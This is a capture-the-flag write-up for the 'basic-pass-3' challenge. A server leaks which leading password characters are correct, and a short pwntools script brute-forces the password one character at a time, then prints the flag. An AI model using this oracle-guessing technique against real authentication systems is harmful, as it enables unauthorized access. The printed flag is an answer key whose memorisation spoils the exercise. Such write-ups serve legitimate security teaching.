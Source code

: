 # basic-pass-3

Ok, the sysadmin finally admits that maybe authentication should happen on a server. Can you just check everything really quick to make sure there aren't any problems now? He put some readouts for people who forget their passwords.

nc challenges.ctfd.io 30133

made by: @aidanglickman

## Solution

![](./1.png)

So the password got moved to a server. After establishing a connection we get a prompt asking for the password. 

![](./2.png)

I first entered "b" and the server returned a binary string with only the first character being "1". At this point I was guessing the password is the flag.

![](./3.png)

I was right. If I enter the starting part of the flag, the first few digits got flipped to "1". So the goal of this is to make all the digits be flipped to "1" and the string submitted will be the flag. For this, I'm going to automate this using the script below:

```python
from pwn import *
import string

conn = remote("challenges.ctfd.io", 30133)

conn.recvuntil("password.\n")
conn.sendline("skip")
buff = conn.recvline().strip()

flag = ""

for idx in range(len(buff)):
    for c in string.printable:
        data = flag + c
        conn.recvuntil("password.\n")
        conn.sendline(data)
        ans = conn.recvline().strip()
        if ans == "Correct!" or ans[idx] == "1":
            flag = data
            print flag
            break
```

![](./4.png)

Flag: ```bcactf{y0u_4r3_4_m4573rm1nD!_Ym9vbGlu}```